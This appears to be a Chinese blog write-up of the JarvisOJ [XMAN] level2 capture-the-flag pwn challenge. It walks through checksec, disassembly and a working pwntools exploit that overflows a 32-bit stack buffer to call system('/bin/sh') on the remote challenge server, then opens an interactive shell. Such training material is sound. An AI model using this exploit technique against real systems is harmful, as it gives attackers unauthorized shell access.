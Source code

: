 ```yaml
---
title: XMAN level2 の Write-Up
date: 2020-05-01 20:45:46
categories:
- WriteUPs
- JarvisOJ
tags:
- PWN
- XMAN
- Stack
---
```

## Introduction

这是JarvisOJ的PWN题部分[XMAN]level2的Write-Up，题目难度不大，还是栈溢出覆盖返回地址，不过涉及到二次覆盖。可是由于这是32位程序，加上没有什么保护措施，其实这个二次覆盖也很简单，适合Rookie详细了解PWN的机制。

<!-- more -->

## Step 1

还是一样的套路，checksec：32位程序，没有什么特殊的保护措施：

![](/img/XMAN-level2/XMAN1.png)

程序运行如下图所示：

![](/img/XMAN-level2/XMAN2.png)

## Step 2

将程序拖到hopper disassembler中，还是熟悉的vulnerable_function函数，这次不同的是不再有callsystem函数直接利用了：

![](/img/XMAN-level2/XMAN3.png)

但是发现存在system函数：

![](/img/XMAN-level2/XMAN4.png)

所以需要调用这个函数传入参数，如“/bin/sh”，我们在程序里找一下有木有这个字符串：

![](/img/XMAN-level2/XMAN5.png)

果然在数据中找到hint，这样思路就完整了。利用vulnerable_function函数的栈溢出覆盖返回地址，使得程序跳转到system函数，然后覆盖这个函数jmp到的GOT表地址为数据中的“/bin/sh”即可，下图为system函数的汇编代码：

![](/img/XMAN-level2/XMAN6.png)

## Step 3

最后就是EXP的编写了，下面给出代码：

```Python
from pwn import *

# sh = process('./level2')
sh = remote('pwn2.jarvisoj.com', 9878)

elf = ELF('./level2')

sys_addr = elf.symbols['system']

shell_addr = elf.search('/bin/sh').next()

payload = 'a' * (0x88 + 0x4) + p32(sys_addr) + p32(0xaaaaaaaa) + p32(shell_addr)

sh.send(payload)

sh.interactive()
sh.close()
```

有两个地方需要稍微注意一下：

* 寻找’/bin/sh’时我是通过pwntools库ELF模块的search方法直接在程序中找（通过之前的分析确定程序中存在’/bin/sh’），其实由于Step 1中通过checksec发现程序并没有开启内存地址随机化保护，所以这里也可以替换成具体的’/bin/sh’地址（0x0804a024）

* 在构造payload的时候，跳转到system函数覆盖GOT表地址之前还需要给出system函数的返回地址，即0xaaaaaaaa

执行EXP即可获得最终flag：

![](/img/XMAN-level2/XMAN7.png)
